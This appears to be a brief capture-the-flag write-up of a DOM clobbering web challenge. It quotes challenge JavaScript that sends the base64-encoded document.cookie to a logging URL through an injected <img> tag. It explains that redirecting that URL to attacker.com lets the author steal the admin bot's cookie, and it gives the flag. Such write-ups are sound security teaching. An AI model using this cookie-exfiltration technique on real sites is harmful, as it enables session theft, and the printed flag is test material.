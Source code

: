 <img src="https://i.imgur.com/ZMFYTv4.png"></img>

* A GET Request to Attacker.com with `?auth=&image=(base64(imageURL))`

```js
if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
```
* `?auth` contains base64 Encoded cookie. Now, We dont Have any Cookies, So the The `?auth=` is Empty.

* Flag in the Admin bot cookie. In order to Get the Cookie, Send the about Payload to the Bot to get the Flag

>## flag: wsc{d0m_cl0bb3r1ng_15_fun}





